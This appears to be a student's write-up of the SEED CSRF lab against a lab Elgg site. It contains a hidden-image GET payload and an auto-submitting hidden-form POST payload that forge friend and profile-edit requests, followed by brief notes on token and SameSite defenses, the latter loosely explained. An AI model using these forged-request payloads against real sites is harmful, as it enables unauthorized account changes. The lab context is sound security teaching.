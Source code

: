# Cross-Site Request Forgery (CSRF) Attack Lab

## Fei Guo, July 7, 2022

Lab Spec: https://seedsecuritylabs.org/Labs_20.04/Web/Web_CSRF_Elgg/

The following two attacks are done towards a website having csrf countermeasures disabled.

## 1. CSRF Attack using GET Request

Here we want to initiate a forged GET request to add Samy as a friend on a social media website Elgg.

To trigger this attack, we can simply embed this line of code in a website or in an editor supporting raw HTML editing.

```html
<img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
```

## 2. CSRF Attack using POST Request

Here we want to forge a POST request to edit the visitor's profile on his or her behalf without authorization. So we first analyze what a typical POST request contains, and put the victim's guid in the form, and edit other fields as desired. 


```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero!'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```
Questions. In addition to describing your attack in full details, you also need to answer the following questions in your report:

- Question 1: The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe how Boby can solve this problem.

Boby can inspect Alice's profile page and look at the url of "Add Friend", which contains the guid of Alice.

- Question 2: If Boby would like to launch the attack to anybody who visits his malicious web page. In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF attack to modify the victim’s Elgg profile? Please explain.

This is hard. I looked around on Elgg and didn't find any place where we can get the current user's guid. 

## 3. Defense with timestamp and token

This is the countermeasure most sites adopted before the SameSite cookie was introduced. It's basically a measure that generates a secret and timestamp for every page users visit, and asks users to submit these previously generated secrets for any further actions made on the website. Since other websites can't access the secrets, the CSRF risk is mitigated.

## 4. Defense with SameSite Cookie Method

This is a smart move of browsers, albeit a bit late. Basically, now websites need to declare the type of their cookies. LAX or Strict? LAX cookies are attached when a site is sending cross-site Get requests (whether it's through a link or a form). Normal cookies behave just like before, for backward compatibility I think. Strict cookies won't be attached for any cross-site requests, hence mitigating the CSRF vulnerability.

